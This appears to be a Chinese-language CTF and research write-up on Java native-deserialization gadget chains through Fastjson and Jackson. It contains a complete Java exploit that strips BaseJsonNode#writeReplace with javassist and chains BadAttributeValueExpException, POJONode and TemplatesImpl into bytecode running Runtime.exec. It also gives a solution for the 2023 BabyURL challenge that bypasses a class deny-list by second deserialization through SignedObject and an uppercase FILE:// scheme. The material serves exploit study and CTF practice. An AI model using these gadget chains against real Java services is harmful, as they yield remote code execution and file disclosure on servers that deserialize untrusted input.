 # Fastjson回眸

在Fastjson中，`JSONArray`和`JSONObject`都实现了`Serializable`接口，这两个类的`toString`方法都能触发`toJSONString`的调用，要把一个JSON对象转字符串，必然涉及到对象属性的获取，会调用到对象的getter方法

从1.2.49开始，`JSONArray`和`JSONObject`都实现了自己的`readObject`方法，自定义了一个`SecureObjectInputStream`并重写了`resolveClass`方法，里面调用了`checkAutoType`来对反序列化的类进行黑白名单检查。需要通过原生反序列化的引用机制来绕过。

利用链：toString(e.g. BadAttributeValueExpException#readObject) -> toJSONString -> evil getter(e.g. TemplatesImpl#getOutputProperties)

# Jackson审视

Jackson的使用和Fastjson类似

| FastJson                 | Jackson                       |
| ------------------------ | ----------------------------- |
| JSONObject               | ObjectNode                    |
| JSONArray                | ArrayNode                     |
| JSON.parseObject静态调用 | ObjectMapper.readTree对象调用 |

继承关系：`POJONode`->`ValueNode`->`BaseJsonNode` -> `JsonNode`

利用点在`BaseJsonNode#toString`，跟到后面 ，对于自定义的类使用`BeanSerializer`进行反序列化，调用`serializeFields`对属性进行还原时,`BeanPropertyWriter`调用`getter`

还是用`TemplatesImpl#getOutputProperties`去打，但是这里直接反序列化会出现问题

> Failed to JDK serialize `POJONode` value: (was java.lang.NullPointerException) (through reference chain: com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl["outputProperties"])

查看报错StackTrace

![image-20230727162629130](E:\MyBook\Java_Zoo\.gitbook\assets\image-20230727162629130.png)

`invokeWriteReplace`判断`writeReplaceMethod`是否存在，存在则调用

![image-20230727162824036](E:\MyBook\Java_Zoo\.gitbook\assets\image-20230727162824036.png)

简单粗暴，把这个类的`writeReplaceMethod`删掉即可

完整代码

```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.*;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class Test {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{
        // 去除BaseJsonNode的writeReplace方法
        CtClass ctClass =ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(ctMethod);
        ctClass.toClass();

        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "test");
        setValue(templates, "_tfactory", null);

        POJONode pojo = new POJONode(templates);

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd, "val", pojo);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(bd);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
    }
}
```

# 巅峰极客2023 BabyURL

附件👉[Click Me](../backup/geek_BabyURL.zip)

主要的两个路由

一个用于反序列化、一个用于读`/tmp/file`

```java
@GetMapping({"/hack"})
@ResponseBody
public String hack(@RequestParam String payload) {
    byte[] bytes = Base64.getDecoder().decode(payload.getBytes(StandardCharsets.UTF_8));
    ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);

    try {
        ObjectInputStream ois = new MyObjectInputStream(byteArrayInputStream);
        URLHelper o = (URLHelper)ois.readObject();
        System.out.println(o);
        System.out.println(o.url);
        return "ok!";
    } catch (Exception var6) {
        var6.printStackTrace();
        return var6.toString();
    }
}

@RequestMapping({"/file"})
@ResponseBody
public String file() throws IOException {
    File file = new File("/tmp/file");
    if (!file.exists()) {
        file.createNewFile();
    }

    FileInputStream fis = new FileInputStream(file);
    byte[] bytes = new byte[1024];
    fis.read(bytes);
    return new String(bytes);
}
```

`MyObjectInputStream`重写了`resolveClass`

```java
protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
    String className = desc.getName();
    String[] denyClasses = new String[]{"java.net.InetAddress", "org.apache.commons.collections.Transformer", "org.apache.commons.collections.functors", "com.yancao.ctf.bean.URLVisiter", "com.yancao.ctf.bean.URLHelper"};
    String[] var4 = denyClasses;
    int var5 = denyClasses.length;

    for(int var6 = 0; var6 < var5; ++var6) {
        String denyClass = var4[var6];
        if (className.startsWith(denyClass)) {
            throw new InvalidClassException("Unauthorized deserialization attempt", className);
        }
    }

    return super.resolveClass(desc);
}
```

把`URLVisiter`、`URLHelper`禁了，二次反序列化绕过

`URLHelper`的`readObject`调用了`URLVisiter#visitUrl`，获取的结果写入`/tmp/file`

```java
private void readObject(ObjectInputStream in) throws Exception {
    in.defaultReadObject();
    if (this.visiter != null) {
        String result = this.visiter.visitUrl(this.url);
        File file = new File("/tmp/file");
        if (!file.exists()) {
            file.createNewFile();
        }

        FileOutputStream fos = new FileOutputStream(file);
        fos.write(result.getBytes());
        fos.close();
    }
}
```

目的就很明确了，利用`URLVisiter`去读flag，再写入`/tmp/file`

`visitUrl`限制了URL不能以`file`开头，用大写绕过`FILE:///`

```java
if (myurl.startsWith("file")) {
    return "file protocol is not allowed";
}
```

没错，file协议可以列目录

获取flag的名字F14gIsHereY0UGOTIT

```java
URLHelper urlHelper = new URLHelper(" file:///F14gIsHereY0UGOTIT");
URLVisiter urlVisiter = new URLVisiter();
setValue(urlHelper, "visiter", urlVisiter);

KeyPairGenerator keyPairGenerator;
keyPairGenerator = KeyPairGenerator.getInstance("DSA");
keyPairGenerator.initialize(1024);
KeyPair keyPair = keyPairGenerator.genKeyPair();
PrivateKey privateKey = keyPair.getPrivate();
Signature signingEngine = Signature.getInstance("DSA");
SignedObject signedObject = new SignedObject(urlHelper, privateKey, signingEngine);

POJONode pojo = new POJONode(signedObject);
BadAttributeValueExpException bd = new BadAttributeValueExpException(1);
setValue(bd, "val", pojo);

ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(bd);
oos.close();
```